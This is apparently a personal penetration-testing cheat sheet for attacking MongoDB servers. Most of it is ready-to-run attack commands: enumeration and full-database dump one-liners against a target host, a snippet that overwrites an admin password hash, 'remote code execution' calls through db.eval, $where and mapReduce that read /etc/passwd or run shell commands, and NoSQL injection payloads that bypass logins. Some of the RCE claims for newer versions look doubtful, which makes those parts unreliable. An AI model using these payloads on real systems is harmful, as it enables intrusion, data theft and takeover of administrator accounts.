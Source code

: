 # mongodb

**Author:** Julien Bongars  
**Date:** 2025-09-25 09:55:18
**Path:**

---

## Connection Methods

**TCP Connection:**

```bash
mongo --port 27017 --host 127.0.0.1
mongo --port 27017 --host target.com
mongo mongodb://target.com:27017/database
```

**Unix Socket:**

```bash
mongo --host /tmp/mongodb-27017.sock
mongo --host /var/run/mongodb/mongodb.sock
```

**With Authentication:**

```bash
mongo -u username -p password --host target.com --port 27017
mongo mongodb://user:pass@target.com:27017/admin
```

## Reconnaissance & Enumeration

**Database Discovery:**

```bash
# List databases
mongo --host target.com --eval "db.adminCommand('listDatabases')"
mongo --host target.com --eval "show dbs"

# List collections in database
mongo --host target.com database --eval "db.listCollections()"
mongo --host target.com database --eval "show collections"
```

**One-liner Enumeration:**

```bash
mongo --host target.com --eval "db.adminCommand('listDatabases').databases.forEach(function(d){print('=== DB: ' + d.name + ' ==='); db=db.getSiblingDB(d.name); db.listCollections().forEach(function(c){print('Collection: ' + c.name); printjson(db[c.name].findOne());})})"
```

## Useful MongoDB Evaluations

**System Information:**

```js
db.version(); // MongoDB version
db.serverStatus(); // Server status
db.isMaster(); // Master/slave info
db.adminCommand("buildInfo"); // Build information
db.stats(); // Database statistics
```

**Authentication & Users:**

```js
db.getUsers(); // List database users
db.adminCommand("usersInfo"); // All users info
db.runCommand({ connectionStatus: 1 }); // Current user privileges
```

**Data Extraction:**

```js
db.listCollections(); // List collections
db.collection.find(); // Dump collection
db.collection.find().limit(5); // First 5 documents
db.collection.find().forEach(printjson); // Pretty print all
db.collection.count(); // Count documents
db.collection.distinct("field"); // Unique values
```

**Update admin password:**

see:

```js
db.admin.updateOne(
  { _id: ObjectId("61ce278f46e0fb0012d47ee4") },
  {
    $set: {
      x_shadow:
        "$6$3PQnfHW5kwahebAm$KNiatOJON1Imt4YUmYsaSArn3R.r0QIFcrpySrqbrRaAfBulrPsqQjc20.WNjgbhIo1In17yytuZDIVxpgAGc/",
    },
  },
);
```

**Administrative Commands:**

```js
db.adminCommand("getCmdLineOpts"); // Configuration options
db.adminCommand("hostInfo"); // Host system info
db.adminCommand("listCommands"); // Available commands
db.adminCommand("getLog", "global"); // View logs
```

## Remote Code Execution

**JavaScript Execution (if enabled):**

```js
// Execute system commands (MongoDB < 4.4 with server-side JS enabled)
db.eval("function() { return ls('/') }");
db.eval("function() { return cat('/etc/passwd') }");

// Newer versions - use $where with system calls
db.collection.find({ $where: "function() { return ls('/etc') }" });
```

**MapReduce RCE:**

```js
// Execute code via MapReduce (deprecated but sometimes available)
db.collection.mapReduce(
  function () {
    emit(1, ls("/etc"));
  },
  function (key, values) {
    return values;
  },
  { out: { inline: 1 } },
);
```

**Server-Side JavaScript (if enabled):**

```js
// Check if server-side JS is enabled
db.adminCommand("getParameter", "*").javascriptEngine;

// Execute shell commands
db.eval("function() { return sh('whoami') }");
db.eval("function() { return sh('cat /etc/passwd') }");
```

**NoSQL Injection Payloads:**

```js
// Authentication bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}

// Data extraction
{"$where": "this.password.length > 0"}
{"$where": "this.username.match(/admin/)"}
```

## File Operations

**GridFS File Access:**

```js
// List GridFS files
db.fs.files.find();
db.fs.chunks.find();

// Read file content
var file = db.fs.files.findOne({ filename: "config.txt" });
db.fs.chunks
  .find({ files_id: file._id })
  .sort({ n: 1 })
  .forEach(function (chunk) {
    print(chunk.data.toString());
  });
```

## Privilege Escalation

**Role Enumeration:**

```js
db.runCommand({ rolesInfo: 1 }); // List all roles
db.runCommand({ usersInfo: 1 }); // List all users with roles
```

## Common Ports & Default Credentials

**Ports:**

- 27017 (default)
- 27018 (shard)
- 27019 (config server)
- 28017 (web interface)

**Default Credentials:**

- No authentication by default
- Check for blank passwords
- Common usernames: admin, root, mongodb
